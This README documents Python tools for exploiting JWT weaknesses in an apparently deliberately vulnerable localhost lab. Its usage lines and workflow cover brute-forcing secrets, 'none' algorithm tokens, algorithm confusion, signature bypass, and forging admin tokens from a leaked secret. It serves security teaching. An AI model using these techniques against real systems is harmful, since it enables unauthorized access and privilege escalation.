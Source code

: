 # JWT Vulnerability Exploitation Tools

This folder contains Python scripts to exploit various JWT vulnerabilities demonstrated in the JWT lab.

## Prerequisites

Install required dependencies:

```
pip install -r requirements.txt
```

## Available Exploit Scripts

### 1. all_in_one.py

An all-in-one tool that combines all exploit techniques in a single interface:

```
python all_in_one.py decode --token <JWT_TOKEN>                  # Decode and analyze a token
python all_in_one.py none --url http://localhost:3000/api/none-alg   # Create and test a 'none' algorithm token
python all_in_one.py tamper --token <TOKEN> --field role --value admin --url http://localhost:3000/api/missing-validation  # Tamper with a token
python all_in_one.py brute --token <TOKEN> --wordlist wordlist.txt   # Brute force the secret
python all_in_one.py extract --url http://localhost:3000/api/debug    # Extract the JWT secret from debug endpoint
python all_in_one.py forge --secret supersecretkey --url http://localhost:3000/api/admin   # Forge a token with a known secret
python all_in_one.py scan --url http://localhost:3000 --token <TOKEN>  # Scan for all vulnerabilities
```

### 2. weak_secret.py

Brute-force weak JWT secrets:

```
# Brute-force a JWT secret
python weak_secret.py <jwt_token> <wordlist_file>

# Forge a token with a known secret
python weak_secret.py forge <secret> [username] [role]
```

### 3. none_algorithm.py 

Create tokens with the 'none' algorithm:

```
# Create a 'none' algorithm token
python none_algorithm.py create [token_to_copy_payload_from]

# Exploit a vulnerable endpoint
python none_algorithm.py exploit <url> [token_to_copy_payload_from]

# Create a custom 'none' algorithm token
python none_algorithm.py custom <username> <role>
```

### 4. alg_confusion.py

Exploit algorithm confusion (HS256 vs RS256):

```
# Generate a confused algorithm token
python alg_confusion.py generate <secret_key>

# Full exploit with secret extraction
python alg_confusion.py exploit <base_url>

# Direct exploit with known secret
python alg_confusion.py direct <target_url> <secret_key>
```

### 5. signature_bypass.py

Modify JWT payload without changing the signature:

```
# Decode and display a JWT token
python signature_bypass.py decode <token>

# Modify a token's payload
python signature_bypass.py modify <token> <key> <value>

# Exploit a vulnerable endpoint
python signature_bypass.py exploit <url> <token> <key> <value>

# Elevate privileges in one step
python signature_bypass.py elevate <url> <token>
```

### 6. secret_leak.py

Extract and use leaked JWT secrets:

```
# Find and extract JWT secret
python secret_leak.py extract <debug_endpoint_url>

# Forge a token with a known secret
python secret_leak.py forge <secret> [username]

# Full exploit (extract, forge, and test admin access)
python secret_leak.py exploit <base_url>

# Test admin access with an existing token
python secret_leak.py test <admin_url> <token>
```

## Example Exploitation Workflow

1. First, extract the JWT secret from the debug endpoint:
   ```
   python secret_leak.py extract http://localhost:3000/api/debug
   ```

2. Use the extracted secret to forge an admin token:
   ```
   python secret_leak.py forge supersecretkey admin
   ```

3. Test the forged token on the admin endpoint:
   ```
   python secret_leak.py test http://localhost:3000/api/admin <forged_token>
   ```

4. Or run a full vulnerability scan:
   ```
   python all_in_one.py scan --url http://localhost:3000
   ```

## Disclaimer

These tools are for educational purposes only. Use them only against systems you have permission to test. 